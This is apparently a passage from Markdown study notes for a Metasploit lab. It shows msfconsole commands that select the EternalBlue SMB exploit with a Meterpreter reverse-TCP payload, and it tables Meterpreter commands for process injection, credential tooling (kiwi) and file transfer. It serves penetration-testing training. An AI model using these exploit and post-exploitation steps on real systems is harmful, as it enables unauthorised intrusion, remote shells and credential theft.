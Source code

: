 ### 🛠 Choosing the Right Payload

Factors to consider:
- **OS Type**: Windows, Linux, Android, etc.
- **Interpreter Availability**: Is Python/PHP installed?
- **Network Environment**: Raw TCP, HTTPS, IPv6?

### 🧪 Example
```bash
use exploit/windows/smb/ms17_010_eternalblue
show payloads
```

Default payload often auto-selected:
```bash
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```

---

## Task 3: Meterpreter Commands

### 🧭 Categories

- Core
- Filesystem
- Networking
- System
- UI (e.g., Webcam, Audio)
- Credential and Privilege tools

### 🧰 Core Commands

| Command | Description |
|---------|-------------|
| `background` | Puts session in background |
| `migrate <PID>` | Injects Meterpreter into another process |
| `load` | Loads extensions (e.g., `kiwi`) |
| `run` | Executes post modules or scripts |
| `help` | Shows full command list |

### 📁 File System Commands

```bash
ls, cd, pwd, cat, rm, search, upload, download
```

### 🌐 Networking Commands
